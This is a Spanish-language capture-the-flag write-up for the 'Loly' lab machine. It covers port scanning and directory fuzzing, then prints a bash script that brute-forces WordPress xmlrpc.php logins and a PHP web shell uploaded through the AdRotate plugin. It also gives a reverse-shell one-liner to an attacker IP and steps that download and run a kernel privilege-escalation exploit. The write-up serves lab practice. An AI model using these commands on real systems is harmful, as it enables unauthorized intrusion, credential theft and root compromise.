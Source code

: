 

# PortScan

```
 # Nmap 7.93 scan initiated Thu Oct 26 12:15:10 2023 as: nmap -sCV -p80 -oN targeted 192.168.204.155
 Nmap scan report for loly.lc (192.168.204.155)
 Host is up (0.00065s latency).
 
 PORT   STATE SERVICE VERSION
 80/tcp open  http    nginx 1.10.3 (Ubuntu)
 |_http-server-header: nginx/1.10.3 (Ubuntu)
 |_http-title: Welcome to nginx!
 MAC Address: 00:0C:29:C2:90:A8 (VMware)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu Oct 26 12:15:17 2023 -- 1 IP address (1 host up) scanned in 7.68 seconds
```

# Sitio Web


![[Pasted image 20231026142343.png]]
El sitio web de Loly es bastante básico, por lo que procedemos a buscar nuevas rutas mediante el fuzzing.


```
gobuster dir -u http://192.168.204.155 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```
/wordpress/           (Status: 200) 
```

El directorio tiene un enlace a un vhost con nombre "**loly.lc**". Agregamos esto a nuestro servidor en el "/etc/hosts" para poder ver el directorio "wordpress" con su respectivo estilo.

Indagando en el Wordpress, vemos un sólo post de único usuario
![[Pasted image 20231026143125.png]]
Por lo que ya sabemos un usuario válido.

# Enumeración WordPress

```
gobuster dir -u http://192.168.204.155/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php,wp
```

Veremos qué tenemos el "**xmlrpc.php**" expuesto, y otros directorios.
```
/index.php            (Status: 301) [Size: 0] [--> http://192.168.204.155/wordpress/]
/wp-content/          (Status: 200) [Size: 0]                                        
/wp-login.php         (Status: 200) [Size: 6744]                                     
/wp-includes/         (Status: 403) [Size: 178]                                      
/wp-trackback.php     (Status: 200) [Size: 135]                                      
/wp-admin/            (Status: 302) [Size: 0] [--> http://loly.lc/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.204.155%2Fwordpress%2Fwp-admin%2F&reauth=1]
/xmlrpc.php           (Status: 405) [Size: 42]   
```

![[Pasted image 20231026143323.png]]
Y nos dice que el XMLRPC sólo acepta peticiones por POST, por lo qué podríamos tratar de abusar de este recurso para obtener las credenciales válidas mediante un script en Bash, y para corroborarlo debemos mandarle una solicitud con el método GET con una estructura XML qué nos permita listar los métodos disponibles del recurso XMLRPC, y sí el método "wp.getUsersBlogs" está activo, podremos realizar un script en bash que mediante fuerza bruta nos permita obtener las credenciales válidas.

```
curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml | grep "wp.getUsersBlogs"
```

y como vemos el método está activo.
```
<value><string>wp.getUsersBlogs</string></value>
```

# Fuerza Bruta XMLRPC en bash.

Nos montamos este script en bash.
```
#!/bin/bash


function createXML(){
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>loly</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""


  echo $xmlFile > file.xml
  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml)
  if [ ! "$(echo $response | grep "Incorrect username or password.")" ]; then
    echo -e "\n[+] La contraseña para 'loly' es: $password"
    exit 0 
  fi 

}


cat /usr/share/wordlists/rockyou.txt | while read password; do 
  createXML $password

done
```

Una vez ejecutado, nos dará las credenciales válida del usuario "loly".


# Abuso Plugin AdRotate.

Sí nos fijamos en el plugin AdRotate, podremos subir archivos en formatos .zip y automáticamente se descomprimirían.
![[Pasted image 20231026144909.png]]
Por lo que podemos aprovecharnos de subir un código malicioso en **PHP** comprimido el cual nos permita llevar a cabo un RCE desde la URL, para ello debemos convertirlo en zip y posteriormente subirlo.

El código malicioso .PHP tendrá lo siguiente:
```
<?php system($_GET['cmd']); ?>
```

Lo convertimos a zip, para posterior a ello subirlo en el plugin AdRotate, el cual lo descomprimirá y tan sólo se quedará con la extensión .PHP, pero para aprovecharnos de este archivo malicioso que subimos, debemos saber donde se guarda, por lo qué abajo nos deja una pista, que el directorio final sería /banners, y si nos fijamos en el fuzzing que hicimos anteriormente había un directorio /wp-content, donde suele guardarse el contenido de los WordPress, por lo qué el recurso estaría en "/wp-contet/banners/nombre_del_recurso_subido"
![[Pasted image 20231026145053.png]]
Y ya desde la URL estamos llevando a cabo un RCE, por lo que podemos entablarnos una Reverse Shell con el típico one line y conectarnos a la máquina.
```
http://loly.lc/wordpress/wp-content/banners/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip_atacante/443%200%3E%261%22
```

# Escalada de Privilegios.

```
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
Sí buscamos esta versión de Kernel en searchsploit, veremos que es vulnerable a escalada de Privilegios. 
![[Pasted image 20231026150048.png]]

Por lo que obtenemos este script, para compilarlo, subirlo a la máquina víctima & ejecutarlo desde allí.
```
searchsploit -m linux/local/45010.c
mv 45010.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
python3 -m http.server 80
```
Y ya desde la máquina víctima obtenemos el recurso donde tengamos de escritura.
```
wget ip_de_atacante/dirty
chmod +x dirty
./dirty
```
y así escalaremos como ROOT.
![[Pasted image 20231026150312.png]]
